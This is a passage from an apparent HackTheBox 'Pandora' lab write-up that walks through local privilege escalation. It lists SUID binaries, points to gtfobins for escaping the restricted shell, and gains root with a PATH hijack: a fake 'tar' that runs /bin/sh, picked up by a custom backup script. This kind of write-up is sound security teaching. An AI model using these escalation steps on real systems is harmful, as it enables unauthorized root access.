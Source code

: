 ```bash
`-rwsr-sr-x 1 daemon daemon 55560 Nov 12  2018 /usr/bin/at`
-rwsr-xr-x 1 root root 39144 Mar  7  2020 /usr/bin/fusermount
-rwsr-xr-x 1 root root 53040 Jul 14  2021 /usr/bin/chsh
-rwsr-xr-x 1 root root 473576 Jul 23  2021 /usr/lib/openssh/ssh-keysign
-rwsr-xr-- 1 root messagebus 51344 Jun 11  2020 /usr/lib/dbus-1.0/dbus-daemon-launch-helper
-rwsr-xr-x 1 root root 14488 Jul  8  2019 /usr/lib/eject/dmcrypt-get-device
-rwsr-xr-x 1 root root 22840 May 26  2021 /usr/lib/policykit-1/polkit-agent-helper-1

...[SNIP]...
```

we can see that `at` is kinda poking out and since I forgot to show that we are in restricted environment  
I am going to show it to you now.  
So when we run `sudo -l` to see what can we run as root we get this:  

```bash
matt@pandora:/tmp$ sudo -l
sudo: PERM_ROOT: setresuid(0, -1, -1): Operation not permitted
sudo: unable to initialize policy plugin
```

Which is a good indication that we are in restricted environment and with `at`  
being SUID binary we can search on `gtfobins` for some kind of escalation.  
Looking at gtfobins we can see that we can use it to escape restricted environments:  

[![Capture.png](https://i.postimg.cc/K8kQr7wD/Capture.png)](https://postimg.cc/9D2Gc9WD)

# Root

A second command that seemed interesting was: "pandora_backup".  
Indeed a custom script and therefore with potential flaws.
I noticed that the tar command is used to compress files in the root folder.  
But the call to tar does not use the full path, so we will be able to change the $PATH  
for a custom executable allowing us a privilege elevation.  

For that I create a "tar" file in the "tmp" folder,  
then I put the command /bin/sh inside. After adding the permissions  
on the file I can run the script:  

```bash
matt@pandora:/$ `cd /tmp && echo "/bin/sh" > tar && chmod 777 tar`
matt@pandora:/tmp$ `export PATH=/tmp:$PATH`
matt@pandora:/tmp$ `pandora_backup`
PandoraFMS Backup Utility
Now attempting to backup PandoraFMS client
#
```

And just like this I am finally root:  

```bash
# id
id
uid=0(root) gid=1000(matt) groups=1000(matt)
# whoami
whoami
root
```

Finally after a couple of hours I was able to finish this box.  
In my opinion this was a lot of hard box comapred to the rest of the "easy"  
machines on HackTheBox but I learned alot on it and hoep you did too.  

Thanks for reading! <3